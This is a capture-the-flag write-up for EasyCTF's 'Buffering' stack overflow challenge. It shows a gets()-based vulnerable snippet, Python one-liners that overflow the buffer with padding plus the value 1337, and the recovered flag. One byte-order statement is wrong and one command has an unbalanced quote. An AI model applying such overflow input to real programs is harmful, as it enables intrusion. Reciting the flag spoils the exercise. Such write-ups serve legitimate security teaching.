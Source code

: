 Binary Exploitation
------------------


Buffering - 80 pts
-----------------

Problem info:

Can you overflow the stack? Try it at /problems/overflow1 on the EasyCTF shell server. The source is available at /problems/overflow1/overflow1.c, and the program you're trying to overflow is at /problems/overflow1/overflow1. Good luck!

On the sever we see  a C file called overflow.c, and it contains the source for the binary. Opening it up the buffer overflow is quite obvious
```C
    char buf[20];
    int x = 0;
    gets(buf);
    if (x == 1337) {

```
So, we need to write up the stack and insert the value of 1337. 1337 in hex is 539 
To encode this in little endian byte order we use:
```
\x05\x39
```
Now, we use trial and error to see where the buffer overflow
```zsh
(python -c "print 'A'*25) | ./overflow1
```
After trial and error we find the number to be 28, and so we send the proper input
```zsh
(python -c "print 'A'*28 + '\x39\x05'") | ./overflow1
```
There is the flag
```
easyctf{i_wish_everything_were_th1s_34sy}

```
